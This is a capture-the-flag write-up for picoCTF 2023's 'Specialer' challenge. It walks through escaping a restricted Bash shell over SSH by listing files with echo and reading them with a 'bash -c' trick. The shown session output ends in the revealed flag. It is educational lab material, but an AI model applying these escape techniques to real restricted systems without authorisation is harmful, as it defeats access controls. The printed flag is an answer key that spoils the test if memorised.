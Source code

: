 # Specialer

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Author: LT 'syreal' Jones, et al.

Description

Reception of Special has been cool to say the least. That's why we made an exclusive version of Special, called Secure Comprehensive Interface for Affecting Linux Empirically Rad, or just 'Specialer'. With Specialer, we really tried to remove the distractions from using a shell. Yes, we took out spell checker because of everybody's complaining. But we think you will be excited about our new, reduced feature set for keeping you focused on what needs it the most. Please start an instance to test your very own copy of Specialer.

`ssh -p 63130 ctf-player@saturn.picoctf.net`. The password is `483e80d4`

## Find the flag

**In this challenge, we can SSH into the instance machine:**
```shell
┌[siunam♥earth]-(~/ctf/picoCTF-2023)-[2023.03.17|16:59:59(HKT)]
└> ssh -p 63130 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:63130 ([13.59.203.175]:63130)' can't be established.
ED25519 key fingerprint is SHA256:lMXKIC17ONzyUJx7ZYBY5VSwoxCz20uq5/Nm+IhXKew.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:63130' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Specialer$ 
```

```shell
Specialer$ whoami
-bash: whoami: command not found
Specialer$ id
-bash: id: command not found
Specialer$ pwd
/home/ctf-player
```

As you can see, looks like we're inside a **restricted Bash shell**, and we can only run some commands.

**According to [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#modify-path), we can use `echo` to list directories:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoCTF-2023/images/Pasted%20image%2020230317173400.png)

**Let's do that!**
```shell
Specialer$ echo *
abra ala sim
```

Oh! We found 3 directories: `abra`, `ala`, `sim`.

**`abra/`:**
```shell
Specialer$ echo abra/*
abra/cadabra.txt abra/cadaniel.txt
```

**`ala/`:**
```shell
Specialer$ echo ala/* 
ala/kazam.txt ala/mode.txt
```

**`sim/`:**
```shell
Specialer$ echo sim/*
sim/city.txt sim/salabim.txt
```

But how do we ***read*** those files??

**After fumbling around, I found that we can press the `Tab` key to list out all commands:**
```shell
Specialer$ 
!          break      coproc     esac       function   local      return     times      wait
./         builtin    declare    eval       getopts    logout     select     trap       while
:          caller     dirs       exec       hash       mapfile    set        true       {
[          case       disown     exit       help       popd       shift      type       }
[[         cd         do         export     history    printf     shopt      typeset    
]]         command    done       false      if         pushd      source     ulimit     
alias      compgen    echo       fc         in         pwd        suspend    umask      
bash       complete   elif       fg         jobs       read       test       unalias    
bg         compopt    else       fi         kill       readarray  then       unset      
bind       continue   enable     for        let        readonly   time       until
```

Hmm... The `bash` command looks sussy.

Then, according to [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#file-read), **we can use `bash` to read files!!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/picoCTF-2023/images/Pasted%20image%2020230317173651.png)

**Let's read those files!**
```shell
Specialer$ bash -c 'echo "$(<abra/cadabra.txt)"'
Nothing up my sleeve!
Specialer$ bash -c 'echo "$(<abra/cadaniel.txt)"'
Yes, I did it! I really did it! I'm a true wizard!
```

Nice! However, nothing interesting in `abra/`.

**How about `ala/`?**
```shell
Specialer$ bash -c 'echo "$(<ala/kazam.txt)"'
return 0 picoCTF{y0u_d0n7_4ppr3c1473_wh47_w3r3_d01ng_h3r3_d5ef8b71}
```

Bam! We found the flag!

- **Flag: `picoCTF{y0u_d0n7_4ppr3c1473_wh47_w3r3_d01ng_h3r3_d5ef8b71}`**

## Conclusion

What we've learned:

1. RBash Escape